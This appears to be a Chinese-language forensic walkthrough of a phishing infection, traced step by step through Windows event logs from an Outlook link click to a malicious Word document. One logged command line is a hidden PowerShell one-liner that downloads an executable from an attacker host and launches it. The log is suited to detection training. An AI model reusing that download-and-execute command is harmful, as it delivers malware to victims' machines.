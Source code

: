 > PhishedUser点击了Outlook中的一个链接，启动了IE浏览器，并打开了一个叫https://company.life_q…..com的网站。

```
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\OUTLOOK.EXE”
event_data.Image: C:\Program Files\Internet Explorer\iexplore.exe
event_data.CommandLine: “C:\Program Files\Internet Explorer\iexplore.exe” https://Dcompany.life_qliwiwkwstxrkgbbz_bdfnccd&d=DwMF-Q&c=LQ_lgKiodJdZA
event_data.User: PhishedUser
```

> IE浏览器下载了一个名为6E713D2A.doc的文件。请注意：日志有时可能会显示为.tmp文件，这是因为有些事件在日志记录时，还未下载未完成。

```
event_data.Image: C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 用户打开了6E713D2A.doc文件

```
event_data.Image: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

> 带有宏的Word恶意文档被启动，并运行了一个powershell命令，该命令正在尝试从http://Malicioussite.su/z3FRJz下载一个名为65536.exe的可执行文件。

```
event_data.ParentImage: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE” -Embedding
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.CommandLine: powershell -WindowStyle Hidden $webclient = new-object System.Net.WebClient;$myurls = ‘http://Malicioussite.su/z3FRJz’.Split(‘,’);$path = $env:temp + ‘65536.exe’;foreach($myurl in $myurls){try{$webclient.DownloadFile($myurl.ToString(), $path);Start-Process $path;break;}catch{}}
event_data.User: PhisedUser
```

> Powershell将65536.exe下载到C:\Users\PhisedUser\AppData\Local\Temp

```
event_id: 11
event_data.Image: C:\Windows\SysWOW64\Windows\PowerShell\v1.0\powershell.exe
event_data.TargetFilename: C:\Users\PhisedUser\AppData\Local\Temp\65536.exe
```
